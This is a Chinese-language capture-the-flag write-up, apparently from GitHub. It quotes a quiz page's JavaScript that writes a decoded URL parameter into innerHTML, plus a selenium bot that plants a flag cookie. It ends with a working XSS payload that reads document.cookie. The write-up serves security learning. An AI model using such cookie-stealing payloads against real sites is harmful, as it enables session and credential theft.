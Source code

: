 ```js
        
        document.querySelector("#copy").addEventListener("click", click);

        const queryString = window.location.search;
        const urlParams = new URLSearchParams(queryString);
        const result = urlParams.get('result');
        const b64decode = atob(result);
        const colon = b64decode.indexOf(":");
        const score = b64decode.substring(0, colon);
        const username = b64decode.substring(colon + 1);

        document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
        document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```

可以发现这里我们能注入 xss 到 username 里面。

bot.py 中，使用 selenium 访问本地搭建的同样的服务器，并注入 flag 到 document.cookie

```py
    with webdriver.Chrome(options=options) as driver:
        ua = driver.execute_script('return navigator.userAgent')
        print(' I am using', ua)

        print('- Logining...')
        driver.get(LOGIN_URL)
        time.sleep(4)

        print(' Putting secret flag...')
        driver.execute_script(f'document.cookie="flag={FLAG}"')
        time.sleep(1)

        print('- Now browsing your quiz result...')
        driver.get(url)
        time.sleep(4)

        try:
            greeting = driver.execute_script(f"return document.querySelector('#greeting').textContent")
            score = driver.execute_script(f"return document.querySelector('#score').textContent")
        except selenium.common.exceptions.JavascriptException:
            print('JavaScript Error: Did you give me correct URL?')
            exit(1)

        print("OK. Now I know that:")
        print(greeting)
        print(score)
```

既然可以任意执行 js ，我们构造一个 xss 把 greeting 的内容改成 document.cookie 即可：

```html
0:<img onerror="document.querySelector(\'#greeting\').innerHTML=document.cookie" src="few">
```
